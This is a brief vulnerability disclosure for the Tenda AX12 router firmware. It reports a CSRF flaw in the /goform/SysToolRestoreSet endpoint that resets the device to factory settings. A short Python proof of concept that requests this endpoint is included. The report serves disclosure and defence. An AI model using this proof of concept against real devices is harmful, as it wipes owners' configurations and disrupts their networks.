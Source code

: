 ## Vulnerability description

Affect device：Tenda-AX12 V22.03.01.21_CN([https://www.tenda.com.cn/download/detail-3237.html](https://www.tenda.com.cn/download/detail-3237.html))

Vulnerability Type: Cross Site Request Forgery (CSRF)

Impact:  Device reset to factory settings

## Vulnerability cause

Provided /goform/SysToolRestoreSet interface function, under the premise of authentication, it allows remote attackers to restore the device to factory settings.

![](./image/1.png)

## POC

On the premise of authentication, just visit this interface.

```python
import requests

url = "http://ip/goform/SysToolRestoreSet"

r = requests.get(url)

print(r.content)
```

![](./image/2.png)
